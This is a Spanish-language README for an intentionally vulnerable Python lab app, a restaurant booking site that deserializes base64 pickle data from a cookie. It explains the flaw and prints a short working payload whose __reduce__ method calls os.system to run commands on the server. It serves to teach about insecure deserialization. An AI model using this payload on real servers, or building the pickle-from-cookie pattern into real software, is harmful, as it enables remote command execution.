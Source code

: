 ## 🚨 Deserialization Attack (Deserialization-Lab)
- Aplicación vulnerable a deserialización de datos en python (librería pickle).
- Se trata de una aplicación web para hacer reservas en un restaurante. 

Tras realizar una reserva, los datos viajan serializados y en base64 en una cookie. Posteriormente, los datos se deserializan para ser mostrados por pantalla.

Un atacante podria generar un payload malicioso como este para ejecutar comandos en el servidor:

```python
import pickle
import base64
import os

class MaliciousClass:
    def __reduce__(self):
        return (os.system, ('{comando a ejeuctar}',))

malicious_object = MaliciousClass()

pickled_data = pickle.dumps(malicious_object)

base64_encoded_data = base64.b64encode(pickled_data).decode('utf-8')

print(base64_encoded_data)
```

Esto ocurre porque al deserializar los datos se llama al método **\_\_reduce\_\_**, el cual ejecuta comandos en el servidor con la llamada **os.system()**.
